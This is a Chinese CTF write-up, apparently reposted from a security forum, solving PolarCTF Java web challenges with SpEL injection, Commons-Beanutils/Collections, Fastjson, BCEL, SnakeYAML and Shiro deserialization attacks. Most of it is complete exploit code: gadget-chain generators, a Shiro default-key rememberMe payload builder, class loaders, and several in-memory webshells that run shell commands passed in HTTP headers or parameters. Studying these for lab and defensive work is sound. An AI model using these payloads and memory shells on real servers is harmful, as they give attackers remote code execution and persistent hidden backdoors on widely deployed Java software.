# PolarCTF靶场 WEB方向java题目全题解-先知社区

> **来源**: https://xz.aliyun.com/news/17387  
> **文章ID**: 17387

---

## ezjava【2023秋季个人挑战赛】



一眼SPEL表达式注入。

```
/SPEL/vul?ex=T(java.lang.Runtime).getRuntime().exec("whoami")
```

这道题无回显，直接外带flag即可。

​

## CB链 【2023冬季个人挑战赛】



user路由把得到的user参数进行了base64解密，然后反序列化。



他有CC和CB的依赖，直接打CB链就行，由于这里复现环境不出网，所以打个内存马。

CBpoc：

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import static org.example.tools.Tools.*;

import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

import java.util.PriorityQueue;

public class test {
    public static void main(String[] args) throws Exception {
        String a = base64Encode(serialize(CB_with_CC()));
        //deserialize(base64Decode(a));
        System.out.println(a);
    }

    public static Object CB_with_CC() throws Exception{
        byte[] bytes = Files.readAllBytes(Paths.get("C:\Users\admin\Desktop\CB\sources\out\production\CB\MyClassLoader.class"));
        TemplatesImpl templates = (TemplatesImpl) getTemplates(bytes);

        BeanComparator Beancomparator = new BeanComparator();
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, Beancomparator);
        queue.add(1);
        queue.add(2);

        setValue(Beancomparator,"property","outputProperties");  //property赋值为TemplatesImpl的outputProperties属性
        setValue(queue,"queue",new Object[]{templates,templates});// 设置BeanComparator.compare()的参数,修改成恶意TemplateImpl 对象
        return queue;
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static Object getTemplates(byte[] bytes) throws Exception {
        Templates templates = new TemplatesImpl();
        setValue(templates, "_bytecodes", new byte[][]{bytes});
        setValue(templates, "_name", "Infernity");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }
}
```

写一个类加载器，动态加载字节码：MyClassLoader

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.util.Base64;

public class MyClassLoader extends AbstractTranslet {
    static{
        try{
            javax.servlet.http.HttpServletRequest request = ((org.springframework.web.context.request.ServletRequestAttributes)org.springframework.web.context.request.RequestContextHolder.getRequestAttributes()).getRequest();
            java.lang.reflect.Field r=request.getClass().getDeclaredField("request");
            r.setAccessible(true);
            org.apache.catalina.connector.Response response =((org.apache.catalina.connector.Request) r.get(request)).getResponse();
            javax.servlet.http.HttpSession session = request.getSession();
            String classData=request.getParameter("classData");
            System.out.println("classData:"+classData);
            byte[] classBytes = Base64.getDecoder().decode(classData);
            java.lang.reflect.Method defineClassMethod = ClassLoader.class.getDeclaredMethod("defineClass",new Class[]{byte[].class, int.class, int.class});
            defineClassMethod.setAccessible(true);
            Class cc = (Class) defineClassMethod.invoke(MyClassLoader.class.getClassLoader(), classBytes, 0,classBytes.length);
            cc.newInstance().equals(new Object[]{request,response,session});
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public void transform(DOM arg0, SerializationHandler[] arg1) throws TransletException {
    }
    public void transform(DOM arg0, DTMAxisIterator arg1, SerializationHandler arg2) throws TransletException {

    }
}
```

内存马：

```
import javax.servlet.*;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.util.stream.Collectors;

public class Memshell implements javax.servlet.Filter{
    private javax.servlet.http.HttpServletRequest request = null;
    private org.apache.catalina.connector.Response response = null;
    private javax.servlet.http.HttpSession session =null;

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }
    public void destroy() {}
    @Override
    public void doFilter(ServletRequest request1, ServletResponse response1, FilterChain filterChain) throws IOException, ServletException {
        javax.servlet.http.HttpServletRequest request = (javax.servlet.http.HttpServletRequest)request1;
        javax.servlet.http.HttpServletResponse response = (javax.servlet.http.HttpServletResponse)response1;
        javax.servlet.http.HttpSession session = request.getSession();
        String cmd = request.getHeader("cmd");           //header cmd
        System.out.println(cmd);
        if (cmd != null) {

            response.setHeader("START", "OK");
            // 使用 ProcessBuilder 执行命令
            Process process = new ProcessBuilder(cmd.split("\s+"))
                    .redirectErrorStream(true)
                    .start();

            // 获取命令执行的输入流
            InputStream inputStream = process.getInputStream();

            // 使用 Java 8 Stream 将输入流转换为字符串
            String result = new BufferedReader(new InputStreamReader(inputStream))
                    .lines()
                    .collect(Collectors.joining(System.lineSeparator()));
            System.out.println("3");
            response.setHeader("RESULT",result);

        } else {
            filterChain.doFilter(request, response);
        }
    }

    public boolean equals(Object obj) {
        Object[] context=(Object[]) obj;
        this.session = (javax.servlet.http.HttpSession ) context[2];
        this.response = (org.apache.catalina.connector.Response) context[1];
        this.request = (javax.servlet.http.HttpServletRequest) context[0];

        try {
            dynamicAddFilter(new Memshell(),"Shell","/*",request);
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        }

        return true;
    }

    public static void dynamicAddFilter(javax.servlet.Filter filter,String name,String url,javax.servlet.http.HttpServletRequest request) throws IllegalAccessException {
        javax.servlet.ServletContext servletContext=request.getServletContext();
        if (servletContext.getFilterRegistration(name) == null) {
            java.lang.reflect.Field contextField = null;
            org.apache.catalina.core.ApplicationContext applicationContext =null;
            org.apache.catalina.core.StandardContext standardContext=null;
            java.lang.reflect.Field stateField=null;
            javax.servlet.FilterRegistration.Dynamic filterRegistration =null;

            try {
                contextField=servletContext.getClass().getDeclaredField("context");
                contextField.setAccessible(true);
                applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(servletContext);
                contextField=applicationContext.getClass().getDeclaredField("context");
                contextField.setAccessible(true);
                standardContext= (org.apache.catalina.core.StandardContext) contextField.get(applicationContext);
                stateField=org.apache.catalina.util.LifecycleBase.class.getDeclaredField("state");
                stateField.setAccessible(true);
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTING_PREP);
                filterRegistration = servletContext.addFilter(name, filter);
                filterRegistration.addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false,new String[]{url});
                java.lang.reflect.Method filterStartMethod = org.apache.catalina.core.StandardContext.class.getMethod("filterStart");
                filterStartMethod.setAccessible(true);
                filterStartMethod.invoke(standardContext, null);
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTED);
            }catch (Exception e){
            }finally {
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTED);
            }
        }
    }
}
```

读取内存马的内容，base64加密后放到类加载器里。

```
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;

public class test2 {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\Users\admin\Desktop\CB\sources\out\production\CB\Memshell.class"));
        String classData = Base64.getEncoder().encodeToString(bytes);
        System.out.println(classData);
    }
}
```

然后把类加载器和内存马都打进去，就可以在header里rce了。



flag{cab20046-3945-f9f4-7125-7ca2703a31df}

## Fastjson 【2024春季个人挑战赛】

fastjson版本1.2.24，存在反序列化漏洞。



由于复现环境不出网，所以这里打TemplatesImpl+内存马

内存马：

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class shell extends AbstractTranslet {
    public shell() {
        try {
            org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
            javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
            javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
            String[] cmd =  new String[]{"bash", "-c", httprequest.getHeader("Infernity")};  //请求头加一个Infernity后面加命令
            byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\A").next().getBytes();
            httpresponse.getWriter().write(new String(result));
            httpresponse.getWriter().flush();
            httpresponse.getWriter().close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws
            TransletException {
    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator,
                          SerializationHandler handler) throws TransletException {
    }
}
```

payload：

```
{
  "@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
  "_bytecodes":[恶意类的base64],
  '_name':'Infernity',
  '_tfactory':{},
  '_outputProperties':{}
}
```



flag{d05ce4e30c9a11638763758a2bc44c29}

## ezJson 【2024夏季个人挑战赛】

这里有fastjson1.2.83的依赖，还有反序列化的点，打fastjson原生反序列化。



poc：

```
import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class test {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\Users\admin\Desktop\ezjson\sources\out\production\ezjson\MyClassLoader.class"));
        Templates templates = (Templates) getTemplates(bytes);

        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        BadAttributeValueExpException exception = new BadAttributeValueExpException(null);
        setValue(exception, "val", jsonArray);

        HashMap map = new HashMap();
        map.put(templates, exception);

        //序列化，反序列化
        String ser = serialize(map);
        System.out.println(ser);
    }
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static Object getTemplates(byte[] bytes) throws Exception {
        Templates templates = new TemplatesImpl();
        setValue(templates, "_bytecodes", new byte[][]{bytes});
        setValue(templates, "_name", "Infernity");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }

    //提供需要序列化的类，返回base64后的字节码
    public static String serialize(Object obj) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        String poc = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        return poc;
    }


    //提供base64后的字节码，进行反序列化
    public static void unserialize(String exp) throws IOException,ClassNotFoundException{
        byte[] bytes = Base64.getDecoder().decode(exp);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
}
```

也是不出网，打内存马，用classloader，具体方法看上面的CB链。



flag{410214d0adf4af64394160a7c55e90e4}

## CC链 【2024夏季个人挑战赛】


存在commons-collections 3.1的依赖，这里我打CC6的链子。也是不出网，打内存马。

poc：

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import static org.polar.ctf.util.Tools.*;

import javax.xml.transform.Templates;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class test {
    public static void main(String[] args) throws Exception {
        String a = base64Encode(serialize(cc6_poc()));
        System.out.println(a);
    }

    public static Object cc6_poc() throws Exception{
        byte[] bytes = Files.readAllBytes(Paths.get("C:\Users\admin\Desktop\CC\sources\out\production\CC\Memshell.class"));
        TemplatesImpl templates = (TemplatesImpl) getTemplates(bytes);

        Transformer transformer = new InvokerTransformer("getClass", null, null);
        //生成LazyMap对象并将其传给TiedMapEntry
        Map<Object,Object> lazymap = LazyMap.decorate(new HashMap<>(), transformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap,templates);

        HashMap<Object,Object> map = new HashMap<>();
        map.put(tiedMapEntry,"bbb");     //在put的时候lazymap里的factory属性是空，就不会触发hash
        lazymap.remove(templates);      //让LazyMap的factory属性置空
        setValue(transformer,"iMethodName","newTransformer");
        return map;
    }

    public static Object getTemplates(byte[] bytes) throws Exception {
        Templates templates = new TemplatesImpl();
        setValue(templates, "_bytecodes", new byte[][]{bytes});
        setValue(templates, "_name", "Infernity");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

内存马：

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class Memshell extends AbstractTranslet {
    static {
        org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
        javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
        javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
        String[] cmd = System.getProperty("os.name").toLowerCase().contains("windows")? new String[]{"cmd.exe", "/c", httprequest.getHeader("Infernity")} : new String[]{"/bin/sh", "-c", httprequest.getHeader("Infernity")};
        byte[] result = new byte[0];
        try {
            result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\A").next().getBytes();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().write(new String(result));
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().flush();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        try {
            httpresponse.getWriter().close();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```



flag{cf5fa591bc52e50f25b6269e8d690c13}

## FastJsonBCEL 【2024夏季个人挑战赛】

题目环境同时有fastjson和tomacat-dbcp的依赖，可以在不出网的情况下，利用fastjson打BCEL注入。



因为漏洞触发点为`JSONObject.parse(jsonString)`所以最终payload形式如下，为什么这么写可以看我fastjson反序列化的文章。

```
{
  {
  "@type": "com.alibaba.fastjson.JSONObject",
  "x":{
    "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
    "driverClassLoader": {
      "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
    },
    "driverClassName": "$$BCEL$$$l$8b$I$A$A$xxxxxxxxxxxx"
  }
}: "x"
}
```

如果是`parseObject()`的形式，payload也可以如下:

```
{
  "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
  "driverClassLoader": {
    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
  },
  "driverClassName": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$xxxxxxxxxxxx"
}
```

生成payload：

```
import com.sun.org.apache.bcel.internal.classfile.Utility;

import java.io.IOException;
import java.nio.file.Files;
import java.nio.file.Paths;

public class test {
    public static void main(String[] args) throws IOException {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\Users\admin\Desktop\fastjsonBCEL\sources\out\production\fastjsonBCEL\calc.class"));
        String code = Utility.encode(bytes,true);
        System.out.println("$$BCEL$$"+code);
    }
}
```

内存马：

```
import java.lang.reflect.Method;
import java.util.Scanner;

public class shell {
    static {
        try {
            Class v0 = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method v1 = v0.getMethod("getRequestAttributes");
            Object v2 = v1.invoke(null);
            v0 = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            v1 = v0.getMethod("getResponse");
            Method v3 = v0.getMethod("getRequest");
            Object v4 = v1.invoke(v2);
            Object v5 = v3.invoke(v2);
            Method v6 = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method v7 = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
            v7.setAccessible(true);
            v6.setAccessible(true);
            Object v8 = v6.invoke(v4);
            String v9 = (String) v7.invoke(v5,"Infernity");      //请求头传参
            String[] v10 = new String[3];
            if (System.getProperty("os.name").toUpperCase().contains("WIN")){
                v10[0] = "cmd";
                v10[1] = "/c";
            }else {
                v10[0] = "/bin/sh";
                v10[1] = "-c";
            }
            v10[2] = v9;
            v8.getClass().getDeclaredMethod("println",String.class).invoke(v8,(new Scanner(Runtime.getRuntime().exec(v10).getInputStream())).useDelimiter("\A").next());
            v8.getClass().getDeclaredMethod("flush").invoke(v8);
            v8.getClass().getDeclaredMethod("clone").invoke(v8);
        } catch (Exception var11) {
            var11.getStackTrace();
        }
    }
}
```



flag{1e96bc6d84ae94cb180a80e1f808f455}

​

## SnakeYaml 【2024秋季个人挑战赛】

题目拥有C3P0和snakeyaml的依赖，可以打HEX链来rce。



我这里打CC6的链子，poc：

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class test {
    public static void main(String[] args) throws Exception {
        Object obj = cc6_poc();
        //obj转hex
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] bytein = byteArrayOutputStream.toByteArray();
        String Hex = bytesToHexString(bytein,bytein.length);

        String data = "!!com.mchange.v2.c3p0.WrapperConnectionPoolDataSource {userOverridesAsString: "HexAsciiSerializedMap:" + Hex +";"}";
        System.out.println(data);
    }

    //将bytes转成16进制字符串
    public static String bytesToHexString(byte[] bArray, int length) {
        StringBuffer sb = new StringBuffer(length);
        for(int i = 0; i < length; ++i) {
            String sTemp = Integer.toHexString(255 & bArray[i]);
            if (sTemp.length() < 2) {
                sb.append(0);
            }
            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }

    public static Object cc6_poc() throws Exception{
        byte[] bytes = Files.readAllBytes(Paths.get("C:\Users\admin\Desktop\yaml\sources\out\production\yaml\SpringControllerMemShell3.class"));
        TemplatesImpl templates = (TemplatesImpl) getTemplates(bytes);

        Transformer transformer = new InvokerTransformer("getClass", null, null);
        //生成LazyMap对象并将其传给TiedMapEntry
        Map<Object,Object> lazymap = LazyMap.decorate(new HashMap<>(), transformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap,templates);

        HashMap<Object,Object> map = new HashMap<>();
        map.put(tiedMapEntry,"bbb");     //在put的时候lazymap里的factory属性是空，就不会触发hash
        lazymap.remove(templates);      //让LazyMap的factory属性置空
        setValue(transformer,"iMethodName","newTransformer");
        return map;
    }

    public static Object getTemplates(byte[] bytes) throws Exception {
        Templates templates = new TemplatesImpl();
        setValue(templates, "_bytecodes", new byte[][]{bytes});
        setValue(templates, "_name", "Infernity");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }

    //反射改值
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

内存马

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;
import java.lang.reflect.Method;

/**
 * 适用于 SpringMVC+Tomcat的环境，以及Springboot 2.x 环境.
 *   因此比 SpringControllerMemShell.java 更加通用
 *   Springboot 1.x 和 3.x 版本未进行测试
 */
@Controller
public class SpringControllerMemShell3 extends AbstractTranslet {

    public SpringControllerMemShell3() {
        try {
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
            Method method2 = SpringControllerMemShell3.class.getMethod("test");
            RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();

            Method getMappingForMethod = mappingHandlerMapping.getClass().getDeclaredMethod("getMappingForMethod", Method.class, Class.class);
            getMappingForMethod.setAccessible(true);
            RequestMappingInfo info =
                    (RequestMappingInfo) getMappingForMethod.invoke(mappingHandlerMapping, method2, SpringControllerMemShell3.class);

            SpringControllerMemShell3 springControllerMemShell = new SpringControllerMemShell3("aaa");
            mappingHandlerMapping.registerMapping(info, springControllerMemShell, method2);
        } catch (Exception e) {

        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    public SpringControllerMemShell3(String aaa) {
    }

    @RequestMapping("/malicious")
    public void test() throws IOException {
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        try {
            String arg0 = request.getParameter("cmd");
            PrintWriter writer = response.getWriter();
            if (arg0 != null) {
                String o = "";
                ProcessBuilder p;
                if (System.getProperty("os.name").toLowerCase().contains("win")) {
                    p = new ProcessBuilder(new String[]{"cmd.exe", "/c", arg0});
                } else {
                    p = new ProcessBuilder(new String[]{"/bin/sh", "-c", arg0});
                }
                java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\A");
                o = c.hasNext() ? c.next() : o;
                c.close();
                writer.write(o);
                writer.flush();
                writer.close();
            } else {
                response.sendError(404);
            }
        } catch (Exception e) {
        }
    }
}
```





flag{aab7425dd1d2ab847489b0c710d0a43b}

## PolarOA 【2024春季个人挑战赛】

随便抓一个包，发现有shiro的rememberMe=deleteMe标志字段。



这道题难点是在把cookie的长度限制在了3500，导致大部分要打内存马的payload无法使用，这里用DynamicClassGenerator写一个短的内存马：

```
package com.Utils;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.*;

import java.io.IOException;

public class DynamicClassGenerator {
    public CtClass genPayloadForWin() throws NotFoundException, CannotCompileException, IOException {
        ClassPool classPool = ClassPool.getDefault();
        CtClass clazz = classPool.makeClass("Exp");

        if ((clazz.getDeclaredConstructors()).length != 0) {
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);
        }
        clazz.addConstructor(CtNewConstructor.make("public SpringEcho() throws Exception {
" +
                "            try {
" +
                "                org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
" +
                "                javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
" +
                "                javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
" +
                "
" +
                "                String te = httprequest.getHeader("Host");
" +
                "                httpresponse.addHeader("Host", te);
" +
                "                String tc = httprequest.getHeader("CMD");
" +
                "                if (tc != null && !tc.isEmpty()) {
" +
                "                    String[] cmd = new String[]{"cmd.exe", "/c", tc};  
" +
                "                    byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
" +
                "                    httpresponse.getWriter().write(new String(result));
" +
                "
" +
                "                }
" +
                "                httpresponse.getWriter().flush();
" +
                "                httpresponse.getWriter().close();
" +
                "            } catch (Exception e) {
" +
                "                e.getStackTrace();
" +
                "            }
" +
                "        }", clazz));

        // 兼容低版本jdk
        clazz.getClassFile().setMajorVersion(50);
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        return clazz;
    }
    public CtClass genPayloadForLinux() throws NotFoundException, CannotCompileException {
        ClassPool classPool = ClassPool.getDefault();
        CtClass clazz = classPool.makeClass("Exp");

        if ((clazz.getDeclaredConstructors()).length != 0) {
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);
        }
        clazz.addConstructor(CtNewConstructor.make("public SpringEcho() throws Exception {
" +
                "            try {
" +
                "                org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
" +
                "                javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
" +
                "                javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
" +
                "
" +
                "                String te = httprequest.getHeader("Host");
" +
                "                httpresponse.addHeader("Host", te);
" +
                "                String tc = httprequest.getHeader("CMD");
" +
                "                if (tc != null && !tc.isEmpty()) {
" +
                "                    String[] cmd =  new String[]{"/bin/sh", "-c", tc};
" +
                "                    byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
" +
                "                    httpresponse.getWriter().write(new String(result));
" +
                "
" +
                "                }
" +
                "                httpresponse.getWriter().flush();
" +
                "                httpresponse.getWriter().close();
" +
                "            }
" +
                "        }", clazz));

        // 兼容低版本jdk
        clazz.getClassFile().setMajorVersion(50);
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        return clazz;
    }
}
```

poc：打cb链

```
package com.test;

import com.Utils.DynamicClassGenerator;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class test {
    public static void main(String[] args) throws Exception {
        DynamicClassGenerator classGenerator =new DynamicClassGenerator();
        CtClass clz = classGenerator.genPayloadForLinux();
        TemplatesImpl templates = (TemplatesImpl) getTemplates(clz.toBytecode());

        //shiro无依赖利用链，使用shiro1.2.4自带的cb 1.8.3
        BeanComparator Beancomparator = new BeanComparator();
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, Beancomparator);
        queue.add(1);
        queue.add(2);

        setValue(Beancomparator,"property","outputProperties");  //property赋值为TemplatesImpl的outputProperties属性
        setValue(queue,"queue",new Object[]{templates,templates});// 设置BeanComparator.compare()的参数,修改成恶意TemplateImpl 对象
        setValue(Beancomparator, "comparator", String.CASE_INSENSITIVE_ORDER);

        //序列化
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(queue);

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));//shiro默认密钥
        byte[] bytes = byteArrayOutputStream.toByteArray();

        ByteSource ciphertext;
        ciphertext = aes.encrypt(bytes, key);
        System.out.println(ciphertext);
    }


    public static Object getTemplates(byte[] bytes) throws Exception {
        Templates templates = new TemplatesImpl();
        setValue(templates, "_bytecodes", new byte[][]{bytes});
        setValue(templates, "_name", "Infernity");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
        return templates;
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```



flag{d50d0c23-262d-4a16-1046-e55b27ff8f6b}

